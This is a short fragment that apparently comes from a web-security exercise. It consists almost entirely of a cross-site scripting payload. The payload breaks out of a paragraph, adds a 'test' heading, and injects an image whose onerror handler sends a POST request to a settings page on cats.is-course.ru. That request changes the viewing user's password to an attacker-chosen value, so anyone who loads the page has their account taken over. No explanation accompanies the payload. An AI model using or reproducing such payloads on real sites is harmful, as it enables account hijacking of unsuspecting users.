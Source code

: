 "</p><h1>test</h1>
<img src=a onerror=fetch("https://cats.is-course.ru/settings", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "password=CatsRuletheWorld1%21&confirm-password=CatsRuletheWorld1%21"
});/>"<p>
